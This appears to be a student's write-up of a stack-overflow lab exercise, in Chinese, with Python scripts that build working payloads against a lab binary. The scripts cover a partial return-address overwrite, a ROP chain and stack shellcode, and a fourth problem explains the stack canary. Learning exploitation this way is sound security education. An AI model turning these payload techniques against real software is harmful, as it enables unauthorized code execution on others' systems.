




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：`func`里用`strcpy`把输入拷到`rbp-0x8`，缓冲区8字节，覆盖到返回地址偏移是16字节。`func1`地址是`0x401216`，含`\x00`，`strcpy`会在`\x00`停下，所以采用“低字节覆盖”，只改返回地址低3字节即可。
- **解决方案**：`ans1.txt`内容 = `A`*16 + `\x16\x12\x40`。
  ```python
  from pathlib import Path

  payload = b"A" * 16 + b"\x16\x12\x40"
  Path("ans1.txt").write_bytes(payload)
  ```
- **结果**：
  

### Problem 2:
- **分析**：`func`里`memcpy`固定拷贝`0x38`字节到8字节缓冲区，直接覆盖返回地址。NX开启，需要ROP。用`0x4012c7`处的`pop rdi; ret`设置参数`0x3f8`，再跳到`func2(0x401216)`打印目标字符串。
- **解决方案**：`ans2.txt` = padding(16) + `pop_rdi` + `0x3f8` + `func2` + 填充到`0x38`。
  ```python
  from pathlib import Path
  import struct

  pad = b"A" * 16
  rop = struct.pack("<Q", 0x4012c7)
  rop += struct.pack("<Q", 0x3f8)
  rop += struct.pack("<Q", 0x401216)
  payload = pad + rop + b"B" * (0x38 - len(pad) - len(rop))
  Path("ans2.txt").write_bytes(payload)
  ```
- **结果**：
  

### Problem 3: 
- **分析**：`func`把`rsp`保存到全局`saved_rsp`，`jmp_xs`会跳到`saved_rsp+0x10`，刚好是缓冲区起始位置（`rbp-0x20`）。因此无需知道栈地址，用`ret`到`jmp_xs`执行栈上shellcode即可。目标是设置`edi=0x72`并调用`func1(0x401216)`。
- **解决方案**：`ans3.txt`前32字节放shellcode，之后覆盖返回地址为`jmp_xs(0x401334)`。
  ```python
  from pathlib import Path
  import struct

  sc = b"\xbf\x72\x00\x00\x00"  # mov edi, 0x72
  sc += b"\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00"  # mov rax, 0x401216
  sc += b"\xff\xd0"  # call rax
  sc += b"\x90" * (0x20 - len(sc))
  payload = sc + b"B" * 8 + struct.pack("<Q", 0x401334)
  payload += b"C" * (0x40 - len(payload))
  Path("ans3.txt").write_bytes(payload)
  ```
- **结果**：
  

### Problem 4: 
- **分析**：**Canary 机制**：函数进入时把`fs:0x28`处的随机canary读入并保存到栈上，函数返回前再次读取`fs:0x28`与栈上保存值相减，比对（`sub rax, QWORD PTR fs:0x28`），不为0则`__stack_chk_fail@plt`终止程序。逻辑上要触发`func1`，需满足：输入为`0xffffffff`（`-1`），循环结束后`rbp-0x18 == 1`且原始输入为`-1`。

- **结果**：
  

## 思考与总结
- Problem1/2/3都可以直接从汇编定位溢出点和目标函数，地址固定时用“返回地址劫持/ROP/栈跳转”。
- Problem3提供了`jmp_xs`绕过栈地址随机化，等价于稳定跳到栈上。
- Problem4核心是理解canary机制与逻辑条件，不必强行做溢出，按程序设计输入即可通关。

## 反馈
由于时间关系该lab完成较仓促，感谢过程中助教同学的帮助与解答。
